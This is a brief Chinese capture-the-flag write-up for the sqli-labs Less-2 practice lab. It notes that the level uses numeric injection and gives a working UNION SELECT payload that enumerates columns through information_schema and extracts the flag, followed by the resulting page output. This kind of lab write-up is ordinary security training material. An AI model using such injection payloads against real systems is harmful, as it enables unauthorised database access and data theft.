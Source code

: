 题目：sqli-labs less2

此题与less1区别在于此题为数字型注入。
因此在url后加入`?id=0 union select '123',(SELECT Group_concat(column_name) FROM information_schema.columns where table_schema='ctftraining' and table_name='flag'),(SELECT Group_concat(flag) FROM ctftraining.flag) --+`，访问和，得到`flag`
```
Welcome    Dhakkan
Your Login name:flag
Your Password:flag{062c46c6-b29f-4f59-89f5-2c10de61fe75}
```